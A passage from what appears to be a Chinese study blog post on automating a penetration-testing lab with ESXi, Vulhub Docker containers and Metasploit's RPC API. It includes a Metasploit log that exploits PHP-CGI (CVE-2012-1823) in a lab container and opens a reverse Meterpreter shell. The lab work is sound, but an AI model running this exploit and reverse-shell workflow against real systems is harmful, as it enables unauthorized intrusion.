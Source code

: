 ```yaml
---
title: 自动化渗透测试环境
tags: [vmware,Penetration]
date: 2024-07-02 19:24:00
categories: [学习笔记]
excerpt: 1. 用EXSi自动化部署vulnhub的虚拟机 ; 2. 用docker模拟github上vulhub的CVE
---
```


以下内容对应仓库

https://github.com/Isolator-1/AutoPT-test-

在`https://www.vulnhub.com/`上的基本上都是一些ova虚拟机（也有一些iso镜像），而在`https://github.com/vulhub/vulhub/tree/master`上都是一些docker。前者使用ESXi来管理控制。

这两者的区别在于，前者环境数量更多，但是不知道漏洞是啥；后者数量没那么多，但是都知道CVE是什么，直接去metasploit里查就行了。





## vmware ESXi

对应代码`VmManage.py`



ESXi是一个可以管理多个虚拟机的host，是一个OS，可以直接装物理机硬件上，但这里还是装在WorkStation里

vmware 的官方  [文档](https://docs.vmware.com/cn/VMware-vSphere/7.0/com.vmware.esxi.install.doc/GUID-016E39C1-E8DB-486A-A235-55CAB242C351.html)，但是在下载ESXi的地方，vmware官网现在好像不能直接下载了，（懒得看具体啥情况了，直接找了个别人分享的  [链接](https://pan.baidu.com/s/1TR1HdluM4u36cArjSyKMYw)）

安装过程略，和普通虚拟机一样，会有个设置密码的过程，虚拟机创建完，可以通过web访问到，用户名是root，密码就是之前设置的。

![](/img/学习笔记/ESXi/1.jpg)

在安装时，要勾选cpu里的Intel VT-x EPT...选项

> 这个问题似乎很玄乎，我解释不清。和“启用关闭windows功能”里wsl、hyperv、虚拟机平台那几个取消勾选有关，也和家庭版windows有关（家庭版没有hyperv等几个选项，虽然有个脚本可以调出来，但我也不知道实际有没有用）
>
> 管理员执行 bcdedit /set hypervisorlaunchtype off ，这里我的电脑好了，但似乎网上说如果解决不了还有后续😶‍🌫️
>
> 不管了

##### 分配IP地址踩的坑

一开始显示的ip是能用的，但是重启一次发现，dhcp分配出来一个很奇怪的ip（不是自己的子网内的ip，是一个169开头的，不是192开头的，很奇怪不理解），然后试了host only，NAT，桥接，dhcp出来的都是那个169开头的😵‍💫😵‍💫😵‍💫在设置里启用shell, alt F1进入shell，也看不了网卡

所以通过`Restart System Configuration`重置了一下，发现IP能正确分配了

😭😭😭😭😭

（这时的密码会变成空，用户名还是root）

##### 后续部分参考自

https://github.com/vmware/pyvmomi-community-samples/tree/master

这是一些基于pyvmomi的原子操作上写的一些工具

### 通过代码连接ESXi

```bash
pip install pyVim==0.0.21  
pip install pyvmomi==6.7.1
```

对应仓库中`class VmManage . __init__`

这里要注意的是，虽然代码只引用了`pyvim`，但如果只安装`pyvim`，这个库会少很多东西，比如没有`SmartConnectNoSSL`，只有`SmartConnect`，然后链接的时候就需要证书，所以`pyvmomi`是必须要装的

### 导入ova

因为当时的需求是要自动安装从vulnhub下载的环境，大部分都是iso和ova

> 在源项目deploy_ova.py中，upload_disk需要改一下，否则无法上传带iso文件的ova，见issue：https://github.com/vmware/pyvmomi-community-samples/issues/392

### 其他操作

开机关机，删除虚拟机这些就没啥特别的了，全都参考自那个community samples





## Docker

对应代码`DockerManager.py`



直接看`https://github.com/vulhub/vulhub/tree/master`的说明就行，不多做赘述

这个库里存了一堆`docker-compose.yml`，用哪个就创建哪个就行了

比如`php/CVE-2012-1823`

直接在这个目录下用`docker-compose up -d`，然后就可以通过容器映射的端口访问到了

```
msf6 exploit(multi/http/php_cgi_arg_injection) > run

[*] Started reverse TCP handler on 192.168.71.131:4444 
[*] Sending stage (39927 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.71.131:4444 -> 172.20.0.2:38974) at 2024-07-09 13:14:20 -0400

meterpreter > shell
Process 78 created.
Channel 0 created.

ls
index.php
info.php
```

`docker compose down -v` 删除环境

> docker 换源时，阿里云的源需要有一个自己的加速器地址，形如 https://<???>.mirror.aliyuncs.com，在这里申请：https://cr.console.aliyun.com/cn-hangzhou/instances/mirrors

##### 在代码中控制这些docker

由于docker compose是一个"CLI tool"，在docker的API中并没有与之相关的内容

即我没办法docker-compose之后，直接拿到由它创建出来的容器

所以只能在yml中解析出镜像的名字，然后在已经被创建的容器中按照镜像名检索😥

对应 `DockerManager.py` 的 `parse_yml` `get_container_by_images`

>  突然访问不到container？
>
>  遇到过本来好好的突然就访问不到web的情况，主机 `service docker restart` 就好了，不知道为啥



## 指定cve，通过metasploit攻击

对应代码`metasploit.py`，这部分代码抄自DeepExploit

踩过的坑：

console.write时，命令要带上换行符\n，文档原话是：The console.write method will send data to a specific console, just as if it had been typed by a normal user. This means that most commands will need a newline included at the end for the console to process them properly.（https://help.rapid7.com/metasploit/Content/api/rpc/standard-reference.html?Highlight=console）

就是这个换行测试的时候没加，导致命令怎么都执行不成功，调试了一下午也不知道问题出在哪里😥😥



## 无CVE

